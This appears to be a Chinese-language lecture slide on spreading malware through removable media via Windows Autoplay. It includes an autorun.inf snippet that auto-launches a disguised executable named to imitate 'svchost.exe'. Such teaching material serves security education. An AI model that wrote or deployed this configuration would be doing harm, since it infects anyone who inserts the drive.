

# 利用移动存储设备植入
利用移动存储设备传播：
利用Windows的Autoplay(autorun.inf)机制，当插入U盘、移动硬盘或者光盘时，可以自动执行恶意程序。
[AutoRun]
open=scvhost.exe
shellexecute=scvhost.exe
shell\Auto\command=scvhost.exe